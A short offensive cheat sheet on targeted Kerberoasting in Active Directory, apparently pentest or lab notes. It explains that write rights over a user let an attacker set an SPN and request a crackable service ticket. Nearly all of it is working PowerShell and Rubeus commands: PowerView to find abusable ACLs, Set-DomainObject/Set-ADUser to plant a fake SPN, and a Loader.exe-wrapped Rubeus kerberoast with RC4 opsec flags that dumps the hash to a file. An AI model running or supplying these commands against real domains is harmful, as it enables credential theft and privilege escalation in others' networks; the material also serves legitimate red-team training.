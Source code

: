 **THE DEFINITION OF A SERVICE ACCOUNT IS ANY USER THAT HAS A SPN SET (NONE NULL)**

With enough rights (`GenericAll`/`GenericWrite`), a target user's SPN can
be set to anything (unique in the domain).

We can then request a TGS without special privileges. The TGS can then
be "Kerberoasted".

---
Find possible ACLs to abuse
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Check if the user has an SPN set (PowerView + AD Module)
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname

Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

Set SPN for the user - **must be unique for the forest** (PowerView + AD Module)
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/totallylegitSPN'}

Set-ADUser -Identity support1user -ServicePrincipalNames
@{Add=‘dcorp/whatever1'}
```

Kerberoast
```powershell
.\Loader.exe -path .\Rubeus.exe -args kerberoast /user:support1user /simple /rc4opsec /outfile:support1user.hash
```